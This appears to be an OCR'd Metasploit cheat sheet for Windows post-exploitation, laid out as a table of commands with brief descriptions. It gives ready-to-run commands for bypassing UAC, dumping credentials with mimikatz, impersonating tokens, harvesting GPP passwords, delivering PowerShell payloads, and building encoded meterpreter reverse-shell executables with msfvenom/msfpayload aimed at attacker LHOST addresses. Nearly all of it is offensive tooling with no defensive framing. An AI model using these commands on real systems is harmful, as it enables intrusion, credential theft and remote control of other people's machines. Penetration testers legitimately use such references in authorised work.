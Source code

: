 | use exploit/windows/local/bypassuac \(check if x86/64 and set target\) | Bypass uac on win7+ |
| load mimikatz -&gt; wdigest | Dump creds |
| load incongnito -&gt; list\_tokens -&gt; impersonate\_token | Use tokens |
| use post/windows/gather/credentials/gpp | GPP |
| run post/windows/gather/local\_admin\_search\_enum | Test other machines |
| msfpayload windows/meterpreter/reverse\_tcp LHOST=192.168.0.1 LPORT=4445 R \| msfencode -t exe -e x86/shikata\_ga\_nai -c 5 &gt; custom.exe | Standalone meterpreter |
| use exploit/multi/script/web\_delivery | Powershell payload delivery |
| post/windows/manage/powershell/exec\_powershell | Upload and run a PS script through a session |
| msfvenom -p windows/meterpreter/reverse\_tcp LHOST=172.1.3.19 LPORT=4444 -a x86 -f exe -e x86/shikata\_ga\_nai -b '\x00' -i 3 &gt; meter.exe | Generate standalone payload |



